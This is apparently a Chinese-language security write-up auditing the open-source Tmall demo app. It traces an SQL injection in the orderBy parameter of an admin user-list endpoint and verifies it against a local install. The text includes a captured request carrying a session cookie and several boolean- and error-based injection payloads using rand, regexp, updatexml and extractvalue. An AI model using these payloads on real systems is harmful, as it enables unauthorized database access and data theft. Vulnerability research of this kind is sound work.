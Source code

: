 这里orderBy和idDesc都是从request中获得，但是idDesc被限制了 boolean，并且sql语句中orderUtil.orderBy只用到了orderBy-
![image.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20221031%2F1667188200_635f45e81eb4c48455d9e.png%21small)-
因此找到或者拼凑下面url地址及参数-
admin/user/{index}/{count}中的urderBy参数就可验证其为sql注入。

#### 黑盒验证

[http://localhost:8088/tmall/admin/user/1/1](http://localhost:8080/tmall/admin/user/1/1)-
参数：user\_name=&user\_gender\_array=&orderBy=1&isDesc= 随机抓取一个登录后的数据包，然后替换掉url和参数

    GET /tmall/admin/user/1/1?
    user_name=&user_gender_array=&orderBy=1&isDesc=
    HTTP/1.1
    Host: 127.0.0.1:8088
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64;
    x64; rv:98.0) Gecko/20100101 Firefox/98.0
    Accept: */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zhHK;q=0.5,en-US;q=0.3,en;q=0.2
    Content-Type: text/html;charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Connection: close
    Referer: http://127.0.0.1:8088/tmall/admin
    Cookie: username=admin; username=admin;
    JSESSIONID=F0CC11F764DE048B217CEC300BEC6C08;
    rememberme=YWRtaW46MTY0OTI0NDI5MjEyODplNTlhM2JmZThmNDI3OTk3N
    zgzYmE5ZTAxMDFmNTkyZQ
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    

发包请求，发现有正常响应-
![image.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20221031%2F1667188376_635f469898ccde34544fc.png%21small)-
有数据响应，证明请求正常，下面手工验证orderBy是否存在sql注 入，下面给出的几个验证注入点的payload，均证明出了orderBy存 在sql注入点-
①、使用rand函数结果显示排序方式不同

    orderBy=rand(1=1)
    orderBy=rand(1=2)
    

②、利用regexp（正则表达式）

    orderBy=(select+1+regexp+if(1=1,1,0x00)) 正常
    orderBy=(select+1+regexp+if(1=2,1,0x00)) 错误
    

③、利用updatexml（更新选定XML片段的内容）

    orderBy=updatexml(1,if(1=1,1,user()),1) 正确
    orderBy=updatexml(1,if(1=2,1,user()),1) 错误
    

④、利用extractvalue（从目标XML中返回包含所查询值的字符 串）

    orderBy=extractvalue(1,if(1=1,1,user())) 正确
    orderBy=extractvalue(1,if(1=2,1,user())) 错误
    